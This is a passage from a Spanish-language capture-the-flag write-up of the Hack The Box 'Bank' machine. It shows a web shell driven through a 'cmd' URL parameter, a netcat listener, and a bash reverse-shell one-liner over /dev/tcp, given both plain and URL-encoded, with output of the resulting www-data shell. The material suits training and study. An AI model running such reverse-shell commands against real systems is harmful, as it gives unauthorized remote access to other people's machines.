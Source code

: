 * Desde la URL ya podras ejecutar cualquier comando.

<p align="center">
<img src="/assets/images/htb-writeup-bank/Captura13.png">
</p>

* Levanta una **netcat**:
```bash
nc -nvlp 1234
listening on [any] 1234 ...
```

* Ejecuta el siguiente comando en la URL, **cambiamos los ampersant (&) por %26** para que funcione correctamente:
```bash
Original:
?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.77/1234 0&>1'
.
.
Modificado para web:
?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.77/1234 0>%261'
```

* Observa la netcat:
```bash
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.77] from (UNKNOWN) [10.10.10.29] 44272
bash: cannot set terminal process group (1069): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bank:/var/www/bank/uploads$ whoami
whoami
www-data
```
